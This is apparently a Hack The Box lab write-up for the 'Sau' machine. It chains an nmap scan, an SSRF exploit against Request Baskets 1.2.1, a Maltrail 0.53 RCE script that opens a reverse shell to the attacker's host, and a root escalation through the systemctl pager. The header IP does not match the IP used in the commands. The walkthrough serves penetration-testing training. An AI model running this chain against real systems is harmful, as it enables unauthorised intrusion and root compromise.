

# HTB - Sau

#### Ip: 10.10.10.248
#### Name: Sau
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.224
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-14 10:30 CST
Nmap scan report for 10.10.11.224
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 14 Feb 2024 16:31:12 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 14 Feb 2024 16:30:44 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 14 Feb 2024 16:30:45 GMT
|_    Content-Length: 0
```

Interesting how port 80 and 8338 are returning on the Nmap scan, but are filtered.

Looking at port 55555 we see it is a web page running Request Baskets:


At the bottom of the page we also get the version number running:

```
Powered by request-baskets | Version: 1.2.1 
```

Searching for exploits against this version, we find it is vulnerable to SSRF, and and find a public exploit for the vulnerability: https://github.com/entr0pie/CVE-2023-27163

I don't have much experience with SSRF, so reading up on the vulnerability anymore I find a helpful refresher at: https://portswigger.net/web-security/ssrf

Per the site:

```
 Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials. 
```

Ok cool, so thinking back to ports 80 and 8338 being filtered on the target, I wonder if they are open internally only and we can access them using this exploit.

Lets try it.

### Exploitation

Downloading the exploit using wget, I can then run it, with the first argument being the vulnerable service on port 55555, and the second argument being port 80 running on localhost:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ bash CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dbvzpu" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dbvzpu now makes the server request to http://127.0.0.1:80/.
> Authorization: 7u30CF26LRwaGj0ZCeEYdMwcqCu5Hh2e7_Lhrvhln91D
```

This creates a basket for us, and gives us the authorization key to access it.


Now if we navigate to the created basket we can see port 80 is running maltrail V0.53


Looking for maltrail exploits I find an unauthenticated RCE: https://github.com/spookier/Maltrail-v0.53-Exploit

This exploit targets the username parameter and injects a reverse shell into it.

Running the exploit against the basket targeting maltrail:

```
┌──(ryan㉿kali)-[~/HTB/Sau]
└─$ python maltrail_rce.py 10.10.14.60 8338 http://10.10.11.224:55555/dbvzpu
Running exploit on http://10.10.11.224:55555/dbvzpu/login
```

Gets me a shell us user puma:


I can now access the user.txt flag in puma's home directory:



### Privilege Escalation

Running `sudo -l` to see what I can run with elevated permissions:

```
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Cool, this should be straightforward. Checking out https://gtfobins.github.io/gtfobins/systemctl/

I find:


I can then run:

```
puma@sau:/usr/bin$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
<SNIP>
!sh
```

To drop into a root shell, permitting me to read the final flag:


Thanks for following along!

-Ryan

